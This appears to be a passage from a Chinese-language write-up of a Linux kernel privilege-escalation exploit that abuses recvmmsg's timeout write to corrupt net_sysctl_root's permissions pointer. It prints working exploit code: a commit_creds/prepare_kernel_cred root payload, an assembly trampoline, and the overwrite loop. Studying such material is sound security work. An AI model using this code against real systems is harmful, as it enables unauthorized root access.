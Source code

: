 提权代码是非常传统的内核提权代码，通过调用`commit_creds`修改进程`creds`数据结构。注意`commit_creds`和`prepare_kernel_cred`也是由特定于内核版本的内核地址信息获得，因此也包含在offset结构体中，需要依据特定的内核版本进行设定。

```
static int __attribute__((regparm(3)))
getroot(void *head, void * table)
{
    commit_creds(prepare_kernel_cred(0));
    return -1;
}

void __attribute__((regparm(3)))
trampoline()
{
    asm("mov $getroot, %rax; call *%rax;");
}

```

准备环境已经就绪，接下来就需要调用有漏洞的__NR_recvmmsg来进行地址修改。即修改`net_sysctl_root`中`permissions`指针的数值。

```
static struct ctl_table_root net_sysctl_root = {
        .lookup = net_ctl_header_lookup,
        .permissions = net_ctl_permissions,
};

```

而ctl_table_root的定义为：

```
struct ctl_table_root {
        struct ctl_table_set default_set;
        struct ctl_table_set *(*lookup)(struct ctl_table_root *root,
                                           struct nsproxy *namespaces);
        int (*permissions)(struct ctl_table_header *head, struct ctl_table *table);
};

```

通过计算`ctl_table_root`可知：`Permissions`的位置为`net_sysctl_root+96`。

这样依次使用系统调用的timeout将.permissions的值的高6*4位从之前的1修改为0即可。

```
for(i=0;i < 3 ;i++) {
    udp(i);
    retval = syscall(__NR_recvmmsg, sockfd, msgs, VLEN, 0, (void *)off->dest+7-i);
    if(!retval) {
        fprintf(stderr,"\nrecvmmsg() failed\n");
    }
}

```

通过使用三次该系统调用，依次将`0xFF** **** **** ****`,`0x00FF **** **** ****`，`0x0000 FF** **** ****`的`FF`修改为`00`.
